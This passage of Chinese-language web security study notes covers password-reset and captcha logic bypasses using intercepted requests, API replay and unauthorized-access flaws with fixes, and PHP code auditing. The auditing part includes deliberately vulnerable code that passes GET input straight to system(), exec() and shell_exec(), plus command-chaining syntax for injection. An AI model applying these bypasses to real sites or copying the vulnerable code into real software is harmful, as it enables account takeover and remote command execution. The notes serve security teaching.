  - 例如:通过手机找回密码，随便输入验证码，抓包，发送，拦截response包(Burpsuite 中可以选取 dointercept -->response to this request)，修改response包中的`返回码，返回包的内容`，继续发送，说不定就可以绕过验证，直接跳到修改密码的页面
- 发生短信等`验证信息`的动作`在本地执行`，可以通过`修改request包`进行控制
  - 例如:通过用户名找回密码，提交后会自动发送验证码到手机中，抓包，`修改手机为自己的手机`(如果其中有type 之类的参数，也可以尝试修改，有 emai 之类的参数，可以尝试删除内容)，发送修改后的包，`手机成功接收验证码`。输入验证码，继续发送，抓包，如果有type 之类的参数，可以继续尝试修改，发送就可以成功修
    改密码

------

##### token生成可控

- 通过邮箱找回密码，正常流程下，抓包查看提交验证码后返回的数据，有加密字符串，这个加密字符串和后面重新设置新密码URL链接中的加密字符串一样，所以可以利用这个加密字符串
- 根据上面提交验证码的抓包，`修改User` 为其他用户(User有可能会使用md5加密)，发送，就可以`返回其他用户的加密字符串`
- 重新返回到找回密码首页，利用`其他用户找回`，点下一步，到输入验证码处，`直接修改URL链接，加入加密字符串`，可以直接`绕过验证码`重置密码

------

##### 注册覆盖

- 举例:注册`重复的用户名`,例如admin,相当于修改了密码

- 中铁快运奇葩方式重置任意用户密码
- 在注册用户时，如果先输入用户名，在鼠标离开后会`校验用户名是否存在`，但是如果`最后输入用户名`，比如`输入一个已有的用户名`admin，在鼠标离开输入框并点击提交按钮后，虽然也会进行用户名是否存在的校验，但表单仍然提交上去了,这时候，我们会发现我们已经以admin的用户登录进来了，这时候用户的密码被改为我们之前填写的密码，但原用户的所有信息却没有改变，也就是说这时候我们获取了用户的信息，姓名、身份证、手机号等等。

------

##### session覆盖

- 举例:同一浏览器，首先输入`自己的账户`进行邮箱密码找回，`进入邮箱查看链接`，接着输入`他人账户`，进行密码找回，`返回`刚刚`自己的邮箱点击链接`，由于`session覆盖`导致了，这个链接成为了`修改他人密码的链接，成功修改他人密码`
- 案例:聚美优品任意修改用户密码(非爆破)
- 说明:通过自己账号忘记密码发送邮箱修改密码地址，不要点开邮件。回到修改账号，将用户名改为要修改的账号，再发送一个邮件，回到自己的邮箱，将之前的邮件打开，输入密码即可。

------

#### 验证码突破

- 暴力破解
- 时间,次数突破
- 回显测试
- 绕过测试


##### 暴力破解验证码

- 有的验证码输入正确一次，在一定时间内不用再输入。
- 有的验证码输入正确一次，会在你session中设定一个值，告诉服务器你已经通过验证码验证了。
- 有的验证码因为逻辑问题只是一个摆设，正常的逻辑为先对比验证码是否正确，再检测账号密码是否正确，反过来了

- `修复建议`:
  - 提高验证码的`长度,复杂度`
  - `限制`错误登录`次数,有效时间`
- 案例:
- 中国人寿某省公司逻辑漏洞可导致所有员工姓名、手机等敏感信息
- 说明:通过爆破获取他的姓名信息，输入手机号和验证码以后，点击获取验证码。验证码直接返回了

------

##### 时间,次数突破验证码

- 概念:重复提交携带验证码的数据包，查看返回包，判断次数
- 测试方法:埴写正确登录信息和验证码 ->抓取提交数据包->`复提交该数据包`->查看是否登录成功 ->登录成功则存在验证码重复使用问题
- 案例:
  - Step1.输入正确信息点击登录时抓包
  - Step2.抓包，通过修改imageField参数的大小来实现暴力提交，自设一个两位数数字字典作为payload
  - Step3.查看任意响应包是否登录成功，从结果来看，暴力重复提交的数据包均登录成功。

------

##### 回显突破验证码

- 概念:验证码直接由`客户端生成`，在`回显中显示`，可通过浏览器工具直接查看
- 测试方法:
  - 1.在源码中显示。源代码审计，搜索源码中有无验证码
  - 2.在COOKIE中显示。抓包时分析COOKIE中是否含有验证码
- 案例:
- Step1.输入相关信息
  Step2.抓包，得到验证码
  Step3.输入验证码。验证通过

------

##### 绕过验证码

- 漏洞成因:由于`逻辑设计缺陷`，可绕过验证，比如直接`删除COOKIE`或`验证码参数`可绕过、当验证不通过清空session时验证码参数值为空时绕过等。
- 测试方法:
  - 1.抓包，删除验证码字段，查看是否可以成功发送
  - 2.抓包，正常流程下，记录验证码后的数据包，替换目标包中内容，直接发送，查看是否可以直接绕过验证码
- 案例:
- Step1.输入正确账户信息和错误验证码，登录时抓包
  Step2.删除COOKIE
  Step3.客户端登陆成功

------

#### 接口调用安全

- 接口也叫做API(Application Programming Interface)翻译为“应用程序编程接口”，是一些`预先定义的函数`

- 目的是`提供应用程序`与`开发人员`基于某软件或硬件得以访问一组例程的能力，而又`无需访问源码`，或理解内部工作机制的细节

- 接口调用的几种分类:

  - ##### 重放攻击:

    - 在`短信、邮件调用业务`或`生成业务`数据环节中(类:短信验证码，邮件验证码，订单生成，评论提交等)，对其业务环节进行`调用(重放)`测试
    - 常见类型:短信轰炸、恶意注册
    - 修复:
      1.对评论提交等操作采用验证码机制，防止生成数据业务被恶意调用，
      2.短信/邮件`接口`，云要对接调用`频率进行控制`或者`上限限制`
      3.每一个订单(接口访问)使用唯一的token，提交一次后，`token失效`

  - ##### 内容编辑

    - 例如:点击获取短信验证码，`抓包`，可以`修改短信内容`，实施下一步攻击
    - 修复:从客户端处获取手机号、邮箱等账号信息，要与`Session中的凭证进行核验`，验证通过后才允许进行业务操作。

  - ##### 接口调用遍历漏洞

    - Web接口一般将常见的一些功能需求进行封装，通过传入不同的参数来获取对应的数据或者执行相应的功能，其中最常见的场景就是通过`接口传入id参数`，`返回对应id的信息`。此类接口如`请求合法性校验不严`，很容易出现`非授权访问`或者`越权访问`的问题。
    - 修复:
      - 1.在session中存储当前用户的凭证或者id，只有`传入凭证`或者id参数值与`session中的一致`才返回结果。
      - 2.一般涉及`身份校验的接口`，不要直接将敏感信息的`明文信息`在`客户端与服务端间传递`，可以将敏感信息在服务端关联到用户标
        识ID，在客户端保存用户标识 ID 并提交到服务端，服务端根据 ID 取出对应信息后进行校验;

  - ##### 接口未授权访问/调用漏洞

    - 在正常的业务中，敏感功能的接口需要对访问者的`身份进行验证`，验证通过后才允许调用接口进行操作。`接口未做身份验证`或`身份校验不严`，可能导致`非授权访问`或`越权调用`，越权又分为`垂直越权`和`水平越权`
    - 修复:
      - 1.采用`Token校验`的方式，在ur|中添加一个Token参数，只有Token验证通过才返回接口数据目`Token使用一次后失效`
      - 2.在接口被调用时，服务器端对`会话状态进行验证`，如果已经登录，便返回接口数据;如未登录，则返回自定义的错误信息,
      - 3.`未授权访问接口`做`Session认证`，并对用户访问的每一个URL做身份鉴别，正确的校验用户id及token等:
      - 4.服务器端需`校验身份唯一性`，访问接口`来源验证`，不同身份只能查看修改删除添加自己的信息

  

  ****

### 代码审计

>  含义

* 根据应用程序源代码，从结构、脆弱性以及缺陷等方面进行审查，最终输出代码审计报告，完善应用程序，提高自身安全水平

>  优点

1. 发现更多**隐蔽的**安全漏洞
2. **企业合规性**要求
3. 提高企业整体**安全水平**
4. 提高企业**安全开发编码规范**

#### 相关配置

php.ini

* php的默认选项配置表，可以更改

configuration

* 配置可被设定的范围

#### 工具

1. Notepad++编辑器
2. Seay源码审计系统
3. UltraEdit
   - 轻量级代码编辑器，支持十六进制查看及编辑，可**直接修改exe等文件**，支持打开大文件，可直接执行代码

  4.ZendStudio

- 内置一个强大的**php代码调试**工具，代码**提示功能强大**，支持6种以上语言。

  5.RIPS(代码审计工具)

* 使用简单，可以**自动生成漏洞利用payload**
* http://rips-scanner.sourceforge.net/

1. Burpsuite
2. 浏览器扩展
3. 编码转换及加解密
   * seay代码审计系统**自带编码**，burp的Decoder功能
4. 正则调试功能
   * seay、灵者正则调试

####  流程

1. 获得源码
2. 安装环境
3. 查看网站结构
   * 了解该程序的大致目录
4. 查找程序入口
   * 了解程序的业务逻辑
5. 寻找配置文件
   * 类似于config.php的文件，保存数据库相关信息,查看**数据库编码方式**(宽字节注入)以及变量**引用方式**(双引号执行)
6. 过滤功能
   * 通过**公共函数**文件和**安全过滤**等文件，了解过滤位置、绕过方式、过滤方式(GPC、正则、替换、addslasher)

####  方法

1. 通读源码
   * 应用文件结构 => 关键文件代码 => 配置文件 => 首页文件 => 入口文件 => 功能审计
2. 定向功能分析法
   * 分析程序有哪些功能，**根据功能**进行漏洞检测与测试
3. 敏感函数参数回溯

####  配置项和危险函数

#####  配置项

* **php.ini**配置项规定了**各种环境的条件**

| 模式           | 设定范围                                          |
| -------------- | ------------------------------------------------- |
| PHP_INI_USER   | 用户脚本(例如ini_set())、注册表(5.3起)、.user.ini |
| PHP_INI_PERDIR | php.ini、.htaccess、httpd.conf                    |
| PHP_INI_SYSTEM | php.ini、httpd.conf                               |
| PHP_INI_ALL    | 可在任何地方设定                                  |

##### 常见配置

> ①register_global

1. 作用

   * 设定全局变量的自动注册，**默认关闭**

2. 版本特性

   * 自5.3.0废弃，5.4.0移除，5.2.0中默认开启

3. 配置影响

   * **变量覆盖漏洞**，既可以成为下文**绕过身份认证**的方法，也可以突破其他已保护的变量**产生新漏洞**，如sql注入

4. 不安全实例

   ```php
   <?php
   	$username=$_GET['username'];
   	$password=$_GET['password'];
   	if(($username==='admin')&&($password==='123456')){
         $authorized=true;//可以通过[URL]?authorized=1,直接传入authorized变量的值进行覆盖从而任意用户登录
       }
   ?>
   ```

> ②safe_mode

* 相似配置还有：safe_mode_exec_dir、disable_classes=、disable_functions=fopen、unlink

1. 作用

   * 禁用了php的一些危险的内置函数，如system、exec等，**默认关闭**

2. 版本特性

   * 自5.3.0废弃，5.4.0移除

3. 配置影响

   * 在找到**可执行命令**时，可以**先检测环境的配置**

4. 不安全实例

   ```php
   <?php
   	$commend=$_GET['commend'];
   	system("{$commend}");
   ?>
   ```

> ③display_error

1. 作用

   * 将显示php产生的错误，**默认开启**

2. 版本特性

   * 在php中默认开启，但是真实的站点发布后一般是关闭的

3. 配置影响

   | 报错设置项            | 含义                                       |
   | --------------------- | ------------------------------------------ |
   | error_reporting=E_ALL | 将错误级别显示为最高                       |
   | error_log= [path]     | 自定义错误日志的位置，必须对web用户可写入  |
   | log_errors=on         | 将错误日志输出到文件，而不是直接输出到前端 |

4. 不安全实例

   ```
   站点关闭后未关闭display_error，呢么就会暴露服务器的目录信息，增加sql注入的风险
   ```

#####  危险函数


****

####  安装漏洞审计

* 一般php程序都有一个初始安装的功能，可能有以下漏洞

  1. 无验证功能，任意重装覆盖

  2. $_GET['step']跳过限制步骤

  3. 变量覆盖导致重装

  4. 判断lock后跳转无exit

  5. 解析install.php.bak漏洞

  6. 其他特定功能绕过漏洞

     

####  审计思路

1. 定向功能分析法，直接从安装问题找漏洞

2. 判断Lock后面有没有exit()，如果没有，看代码重装部分有什么漏洞

   

####  命令注入漏洞

#### 分类

1. 可以直接传入命令执行并返回结果
   * system()、exec()、shell_exec()、passthru()、反引号
2. 可以传入命令执行，但无结果返回
   * popen()、proc_open()
3. 需要开启pcntl扩展
   * pcntl_exec()

#### 函数作用


####  多命令执行语法(1)

```php
<?php
//1. system，自带输出
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    system($cmd);
    echo '<br><br>';
}
//2. exec，无输出，且仅输出最后一行
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    print exec($cmd);
    echo '<br><br>';
}
//3.shell_exec，无回显
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    echo shell_exec($cmd);
    echo '<br><br>';
}
//4. passthru，直接将结果输出
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
     passthru($cmd);
     echo '<br><br>';
}
//5. popen，返回一个文件指针
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'].">>1.txt";
     popen($cmd,'r');
     echo '<br><br>';
}
//6. 反引号，原理是调用的shell_exec函数
if(isset($_GET['cmd'])){
    $cmd= $_GET['cmd'];
    print `$cmd`;
    echo '<br><br>';
}
?>
```

#### 多命令执行语法(2)

> windows

| 命令格式                 | 含义                                           |
| ------------------------ | ---------------------------------------------- |
| command1**&**command2    | 先后执行，无论command1是否成功                 |
| command1**&&**command2   | 先后执行，command1成功，才执行command2         |
| command1**\|\|**command2 | 先后执行，command1失败，才执行command2         |
| command1**\|**command2   | \|是管道符，将command1的执行结果传递给command2 |

> Linux

| 命令格式                 | 含义                                       |
| ------------------------ | ------------------------------------------ |
| command1**;**command2    | 先后执行，无论command1是否成功             |
| command1**&&** command2  | 先后执行，command1成功，才执行command2     |
| command1**&**command2    | 先执行command1并放置后台，在执行command2   |
| command1**\|\|**command2 | 先后执行，command1失败，才执行command2     |
| command1**\|**command2   | 管道符，将command1的执行结果传递给command2 |

#### 审计思路

> 搜索目标函数 => 分析过滤 => 构造恶意字符串 => 执行 => 根据返回值
